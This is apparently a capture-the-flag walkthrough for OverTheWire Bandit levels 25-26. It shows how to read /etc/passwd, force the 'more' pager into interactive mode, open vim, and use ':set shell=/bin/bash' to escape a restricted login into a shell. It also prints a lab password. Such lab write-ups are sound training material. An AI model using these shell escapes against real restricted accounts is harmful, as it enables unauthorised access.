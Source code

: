 2. A default shell is the program that automatically launches when you open your terminal/command prompt. For macOS, the default shell is zsh.
3. On Unix-like systems, there is an important file called /etc/passwd that stores critical information about user accounts on the system. The default login shell can also be found here. To find the file for bandit26,

```shell
cat /etc/passwd | grep bandit26

bandit26:x:11026:11026:bandit level 26:/home/bandit26:/usr/bin/showtext
```

4. User bandit26 uses the Bourne Shell (sh). ```more``` is a shell command that allows files to be displayed in an interactive mode when the contents of the file are too large to fit into the terminal window. It allows the text editor 'vim' to be opened with ```v```. The script opens a file called *text.txt* in the home directory of bandit26 with the *more* program.

```shell
cat /usr/bin/showtext

#!/bin/sh

export TERM=linux

exec more ~/text.txt
exit 0
```

5. When we try to log in, the connection is immediately closed because the */usr/bin/showtext* is executed

```shell
ssh -i bandit26.sshkey bandit26@bandit.labs.overthewire.org -p 2220
```

6. This is because the contents of *text.txt* is too short and ```more``` does not need to go into command mode. If we make the window extremely small, it will force the ```more``` command to run. Press 'v' to open vim. 
7. Change the shell to bash

```vim
:set shell=/bin/bash
```

8. Now, you have a shell you can use to read text.txt

```bash
ls

bandit27-do  text.txt

cat text.txt

5czgV9L3Xx8JPOyRbXh6lQbmIOWvPT6Z
```

# 26-27
**Problem**
Good job getting a shell! Now hurry and grab the password for bandit27! <br>
**Solution**
1. In the shell of bandit26, we can run commands as bandit27 using the setuid binary given.
